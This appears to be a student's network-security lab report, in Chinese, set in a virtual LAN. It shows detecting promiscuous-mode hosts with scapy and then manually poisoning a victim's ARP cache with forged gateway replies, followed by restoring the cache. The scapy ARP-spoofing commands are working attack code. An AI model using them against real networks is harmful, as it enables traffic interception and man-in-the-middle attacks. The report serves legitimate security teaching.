

# 网络监听实验

## 1. 网络拓扑


- 攻击者主机
  - 08:00:27:c7:95:fa / eth1
  - 172.16.111.124 / 24

- 受害者主机
  - 08:00:27:8d:8f:23 / eth0
  - 172.16.111.134 / 24

- 网关
  - 08:00:27:9e:10:fe / enp0s9
  - 172.16.111.1 / 24

## 2. 实验过程

### 2.1 实验一: 检测局域网中的异常终端

在受害者主机上检查网卡的「混杂模式」是否启用

```bash
ip link show eth0
```


在攻击者主机上开启 scapy
```bash
sudo scapy
```

在 scapy 的交互式终端输入以下代码回车执行
```python
pkt = promiscping("172.16.111.134")
```

可以看到没有终端响应了发出的数据包


回到受害者主机上，手动开启该网卡的「混杂模式」

```bash
sudo ip link set eth0 promisc on
```
此时会发现输出结果里多出来了 PROMISC 参数

```bash
ip link show eth0
```


回到攻击者主机上的 scapy 交互式终端继续执行命令


可以看到这次有了回应

回到受害者主机上，关闭该网卡

```bash
sudo ip link set eth0 promisc off
```

### 2.2 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 scapy 交互式终端完成

获取当前局域网的网关 MAC 地址，构造一个 ARP 请求

```python
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
```
查看构造好的 ARP 请求报文详情

```python
arpbroadcast.show()
```


发送这个 ARP 广播请求

```python
recved = srp(arpbroadcast, timeout=2)
```
网关 MAC 地址如下


ARP 请求到的网关 MAC 地址与在网关本机上使用的 `ip a` 查看到的地址一致

在攻击前受害这主机上使用 `ip neigh` 查看 ARP 缓存


伪造网关的 ARP 响应包，准备发送给受害者主机 172.16.111.134，ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址，此处课件里似乎有一个 typo，需要在 ARP 数据包前在加上以太网帧头

```python
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.134", hwdst="08:00:27:c7:95:fa")
```

构造好后使用 `sendp(arpspoofed)` 发送伪造的 ARP 响应数据包到受害者主机

再次在受害者主机上使用 `ip neigh` 可以看到 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址


回到攻击者主机上的 scapy 交互式终端继续执行命令，恢复受害者主机的 ARP 缓存记录，伪装网关给受害者发送 ARP 响应

```python
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:9e:10:fe", pdst="172.16.111.134", hwdst="08:00:27:8d:8f:23")
sendp(restorepkt1, count=100, inter=0.2)
```



查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录


## 3. 实验问题

在进行实验二的时候，ARP 响应包未能发送出去，使用 wireshark 抓包后发现发送出了一堆未构造好的数据包


排查后发现是在 scapy 里构造的 ARP 响应包未封装成以太网帧

## 4. 参考资料

[教材实验说明](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
